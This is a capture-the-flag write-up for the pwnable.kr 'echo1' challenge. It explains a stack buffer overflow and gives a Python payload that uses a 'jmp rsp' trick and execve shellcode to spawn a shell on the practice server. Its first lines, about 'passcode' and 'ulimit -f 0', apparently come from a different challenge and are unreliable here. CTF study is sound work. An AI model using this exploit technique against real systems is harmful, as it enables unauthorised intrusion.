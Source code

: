 # pwnable.kr -- Rookiss -- echo1
Actually, the program do not check whether it does read `passcode`.

So just use `ulimit -f 0` to forbid program write any bytes and `passcode` will must be `0`.

## 1. Challenge
  > Pwn this echo service.  
  >   
  > download : http://pwnable.kr/bin/echo1  
  >   
  > Running at : nc pwnable.kr 9010  

## 2. Solution
  * Download the binary file `echo1` and open it in IDA.

  * In function `echo1`:

    ```cpp
    void __cdecl echo1()
    {
      char buffer[32]; // [rsp+0h] [rbp-20h]

      o->greetings(o->str);
      get_input(buffer, 128);
      puts(buffer);
      o->byebye(o->str);
    }
    ```

    we can see `get_input(buffer, 128);` makes a buffer overflow where the length of `buffer` is 32 bytes and `get_input(buffer, 128);` allows us write 128 bytes at most.

    And after we use `checksec`, we can know that there is no `PIE`, no `NX`, and no `Canary`. So just overflow it and control `RIP`.

  * But where do we set `RIP` to?

    In function `main`, there is a `id = *(_DWORD *)buffer` where `id` is a global variable.

    So we can set `RIP` to the address of `id` which contains the machine code of `amd64` assembly code `jmp rsp`.

    When function `echo1` returns, which means the program runs to `ret`, CPU will pop the address of `id` to register `RIP` then execute `jmp rsp`.

    After that, the program will execute the shellcode after where the address of `id` stores on stack.

  * So, when you input your name, it must start with the machine code of `jmp rsp`.

    And payload can be:

    ```python
    addr_id = 0x00000000006020A0
    payload = b'fuckfuck' * 4 + b'/bin/sh\x00' + pack(addr_id, 64) + shellcode
    ```

    where shellcode is:

    ```python
    sys_execve = 59
    shellcode = asm('xor rsi, rsi') + \
                asm('xor rdx, rdx') + \
                asm('sub rsp, 0x10') + \
                asm('mov rdi, rsp') + \
                asm('mov rax, ' + hex(sys_execve)) + \
                asm('syscall')
    ```

    Send your name which starts with the machine code of `jmp rsp` and choose `1. BOF echo`, then send payload and you will get shell.

